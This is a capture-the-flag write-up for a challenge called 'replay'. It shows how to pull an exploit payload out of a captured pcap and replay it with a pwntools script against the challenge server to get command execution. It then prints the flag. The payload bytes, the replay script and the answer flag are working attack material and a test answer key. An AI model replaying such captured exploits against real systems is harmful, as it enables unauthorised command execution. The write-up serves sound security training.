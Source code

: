 ## replay

### Challenge Description

Somebody pwned my app! Luckily I managed to capture the network traffic of their exploit. Oh by the way, the same app is also running on `misc.chall.pwnoh.io` on port `13371`. Can you pwn it for me?  
`replay.pcap`

### Writeup

We are given a `pcap` file and a server address. This file contains the packets exchanged between a client and the given server and the client could pwn this server. When we connect to the server, a message is printed (`HELLO HOW ARE YOU DOING TODAY`). Then it waits for input.   
Now let's look at the `replay.pcap` file. In the 6th packet, some data has been sent to the server from the client. The 7th packet is just a response from the server. In the 8th packet, we see that the client has sent `id` to the server and the server has answered! If we explore further, we see that in the 12th packet the client has sent `ls -la` and in the 13th packet, we have the result of the sent command. There is a `flag.txt` file.   
So we can see that using data sent to the server in the 6th packet, we can pwn the server and send any command and see the result of the command. We just need to send that data to the server and then just send `cat flag.txt`.  
In order to get the data part of the packet, right-click on the data part, select `Copy`, `as Escaped String`. This gives you some strings. Concat them and use them as the payload.    
![1.png](1.png)   
Here is the code:   
```python
import pwn
from pwn import *

conn = remote('misc.chall.pwnoh.io', 13371)

payload = "\x61\x61\x61\x61\x62\x61\x61\x61\x63\x61\x61\x61\x64\x61" \
"\x61\x61\x65\x61\x61\x61\x66\x61\x61\x61\x67\x61\x61\x61\x68\x61" \
"\x61\x61\x69\x61\x61\x61\x6a\x61\x61\x61\x6b\x61\x61\x61\x6c\x61" \
"\x61\x61\x6d\x61\x61\x61\x6e\x61\x61\x61\x6f\x61\x61\x61\x70\x61" \
"\x61\x61\x71\x61\x61\x61\x72\x61\x61\x61\x73\x61\x61\x61\x74\x61" \
"\x61\x61\x75\x61\x61\x61\x76\x61\x61\x61\x77\x61\x61\x61\x78\x61" \
"\x61\x61\x79\x61\x61\x61\x7a\x61\x61\x62\x62\x61\x61\x62\x63\x61" \
"\x61\x62\x64\x61\x61\x62\x65\x61\x61\x62\x66\x61\x61\x62\x67\x61" \
"\x61\x62\x68\x61\x61\x62\x69\x61\x61\x62\x55\x11\x40\x00\x00\x00" \
"\x00\x00\x0f\x00\x00\x00\x00\x00\x00\x00\x57\x11\x40\x00\x00\x00" \
"\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00" \
"\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00" \
"\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00" \
"\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00" \
"\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00" \
"\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00" \
"\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x04\x20\x40\x00\x00\x00" \
"\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00" \
"\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00" \
"\x00\x00\x3b\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00" \
"\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x57\x11\x40\x00\x00\x00" \
"\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x33\x00\x00\x00\x00\x00" \
"\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00" \
"\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00" \
"\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00" \
"\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x0a"

print(payload)
conn.send(payload)
conn.send("cat flag.txt\n")
print(conn.recvline())
```  
Here is the flag:  
```
buckeye{g00d_th1ng_P1E_w4s_d1s4bl3d_0n_th3_b1n4ry}
```  